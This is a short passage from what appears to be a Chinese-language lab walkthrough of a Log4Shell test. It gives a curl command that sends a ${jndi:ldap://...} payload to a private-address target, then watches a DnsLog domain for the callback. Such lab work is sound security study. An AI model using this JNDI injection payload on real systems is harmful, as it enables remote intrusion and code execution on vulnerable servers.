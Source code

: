 4.在此之前我们查看DnsLog网站的Record为空：

![dnslog记录为空](picture/dnslog记录为空.png)

5.使用绕过POST的curl攻击请求：

```
curl -G http://192.168.109.4:13806/hello --data-urlencode 'payload=${jndi:ldap://nxz.dnslog.cn/exp}'
```

6.可以从被攻击机的udp 53端口中看到DNS解析请求：
